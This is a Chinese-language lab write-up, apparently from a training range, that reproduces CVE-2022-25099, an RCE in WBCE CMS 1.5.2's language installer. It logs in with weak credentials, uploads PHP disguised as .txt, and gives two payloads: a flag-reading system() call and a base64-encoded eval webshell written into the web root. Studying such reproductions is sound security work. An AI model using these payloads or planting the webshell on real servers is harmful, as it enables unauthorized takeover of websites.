 ```yaml
---
title: CVE-2022-25099【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

WBCE CMS v1.5.2 /language/install.php 文件存在漏洞，攻击者可精心构造文件上传造成RCE

CVE 介绍：[CVE - CVE-2022-25099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25099)

## 2. 漏洞复现

开启环境，网上找了下登录地址是 admin/login/index.php，尝试弱口令登录【admin/123456】

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281135460.jpg)

根据 CVE 介绍找语言安装/编辑页面

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281135760.jpg)

漏洞源码：[install.php](https://github.com/WBCE/WBCE_CMS/blob/1.5.2/wbce/admin/languages/install.php)，分析源码可知，install.php 先会检查有没有上传文件，上传的文件是不是 PHP文件等，接着会直接用require载入并运行。

![3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281203187.jpg)

> 在PHP中require语句作用是包含并运行指定文件，与include的区别：include在引入不存文件时产生一个警告且脚本还会继续执行，而require则会导致一个致命性错误且脚本停止执行。

尝试直接上传 php，未成功，看了官方介绍【[WBCE CMS Help - Languages](https://help.wbce-cms.org/pages/the-backend/add-ons/languages.php)】说需要以txt上传，改后缀重新上传。文件内容可自己随便折腾

### 2.1. 示例-1：直接读取flag

```php
<?php
echo system("cat /flag");
?>
```

![4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281210503.jpg)

![5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281210051.jpg)

### 2.2. 示例-2：写个webshell

```php
<?php
$pd='/var/www/html/admin/login/'; #这个路径是通过echo system("pwd");测出来的，步骤有所省略
file_put_contents("$pd".'shell.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==')); /*<?php @eval($_POST["shell"]) ?> #编码后 PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==*/
echo system("ls $pd");
?>
```

蚁剑连接

![6.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281209880.jpg)

![7.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281209852.jpg)
